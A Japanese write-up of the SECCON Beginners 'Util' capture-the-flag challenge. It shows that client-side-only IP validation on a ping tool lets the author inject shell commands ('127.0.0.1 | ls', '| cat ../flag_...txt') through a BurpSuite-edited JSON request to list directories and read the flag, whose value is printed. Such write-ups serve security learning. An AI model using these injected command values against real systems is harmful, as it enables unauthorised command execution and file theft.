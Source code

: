 # Util 54pts
ctf4b networks社のネットワーク製品にはとっても便利な機能があるみたいです! でも便利すぎて不安かも...?

(注意) SECCON Beginners運営が管理しているサーバー以外への攻撃を防ぐために外部への接続が制限されています。

https://util.quals.beginners.seccon.jp/

# Solution
Ping check と書かれたサイト。IPアドレスと書かれているので、試しに `127.0.0.1` を送信してみる。
![Util1](images/Util1.png)
pingコマンドを動かしているっぽい。ので、OSコマンドインジェクションが可能と推測。`127.0.0.1 | ls` を試してみる。`Invalid IP address` と表示された。
ソースコードを確認すると、JavaScriptで無効な入力かどうか判別する処理を行なっている事がわかる。
```JavaScript
    function send() {
      var address = document.getElementById("addressTextField").value;

      if (/^(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)$/.test(address)) {
        var json = {};
        json.address = address

        var xhr = new XMLHttpRequest();
        xhr.open("POST", "/util/ping");
        xhr.setRequestHeader("Content-Type", "application/json");
        xhr.send(JSON.stringify(json));

        document.getElementById("notify").innerHTML = "<p>sending...</p>";

        xhr.onload = function () {
          if (xhr.status != 200) {
            document.getElementById("notify").innerHTML =
              "<p>Request Error : " + xhr.response + "</p>";
          } else {
            document.getElementById("notify").innerHTML =
              "<pre><code>" + JSON.parse(xhr.response).result.replaceAll("\n", "<br />") + "</code></pre>";
          }
        };
      } else {
        document.getElementById("notify").innerHTML = "<p>Invalid IP address</p>";
      }
    }

    var init = function () {
      var btn = document.getElementById("submit");
      var popup = function () {
        send();
      };
      btn.addEventListener("click", popup, false);
    };

    window.addEventListener("load", init, false);

```
BurpSuite で 内容を書き換えてみる。
### Request
```
{"address":"127.0.0.1 | ls"}
```
### Response
```
{"result":"api\npages\n"}
```
lsの結果が表示された。\
ここからソースコードを読んでフラグに関係した場所を探していくと、Dockerfileにそれらしきものが書かれていることに気づく。
### Dockerfile
```
~~~

RUN echo "ctf4b{xxxxxxxxxxxxxxxxxx}" > /flag_$(cat /dev/urandom | tr -dc "a-zA-Z0-9" | fold -w 16 | head -n 1).txt

~~~
```

`flag_xxxx.txt` を探す。
### Request
```
{"address":"127.0.0.1 | (cd .. && ls)"}
```
### Response
```
{"result":"app\nbin\ndev\netc\nflag_A74FIBkN9sELAjOc.txt\nhome\nlib\nmedia\nmnt\nopt\nproc\nroot\nrun\nsbin\nsrv\nsys\ntmp\nusr\nvar\n"}
```

`flag_A74FIBkN9sELAjOc.txt` を発見。catコマンドで表示させる。
### Request
```
{"address":"127.0.0.1 | cat ../flag_A74FIBkN9sELAjOc.txt"}
```
### Response
```
{"result":"ctf4b{al1_0vers_4re_i1l}\n"}
```

終了。